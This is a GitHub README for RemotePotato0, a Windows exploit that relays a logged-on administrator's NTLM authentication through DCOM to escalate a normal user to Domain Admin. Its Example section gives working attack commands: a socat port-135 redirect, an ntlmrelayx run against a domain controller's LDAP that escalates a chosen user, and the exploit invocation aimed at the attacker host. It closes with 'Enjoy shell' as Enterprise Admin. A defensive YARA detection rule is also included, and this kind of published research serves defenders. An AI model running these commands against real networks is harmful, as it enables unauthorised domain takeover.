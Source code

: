 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine.
It is required you have a shell in session 0 (e.g. WinRm shell or SSH shell) and that a privileged user is logged on in the session 1 (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.

Full details at --> https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop

## Example

Attacker machine (10.0.0.20):

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.11:1111 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --escalate-user winrm_user --no-wcf-server
```

Victim machine (10.0.0.11):

```
.\RemotePotato0.exe -r 10.0.0.20 -p 1111
```

Victim Domain Controller (10.0.0.10)

Enjoy shell (eg. psexec) as Enterprise Admin to the domain controller ;)

## Demo

<img src="demo.gif">

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
